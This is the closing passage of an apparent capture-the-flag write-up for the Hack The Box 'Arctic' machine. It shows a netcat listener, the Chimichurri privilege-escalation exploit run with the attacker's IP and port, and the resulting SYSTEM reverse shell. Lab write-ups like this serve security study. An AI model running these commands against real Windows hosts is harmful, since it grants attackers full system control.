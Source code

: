 ```text
               1 File(s)         97.280 bytes
              13 Dir(s)  32.815.558.656 bytes free
```

Now we can start a new terminal and set a nc listener to catch the exploit:

```text
root@kali:~/htb/machines/arctic# nc -lvnp 4445
listening on [any] 4445 ...
```

On the box we run the exploit and point at listener:

```text
C:\Users\tolis>chimichurri.exe 10.10.14.31 4445
chimichurri.exe 10.10.14.31 4445
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\Users\tolis>
```

Switch to nc on other terminal, should now be root:

```text
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.11] 60826
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Users\tolis>whoami
whoami
nt authority\system
```

We can now get the root flag as above.

All done. See you next time.
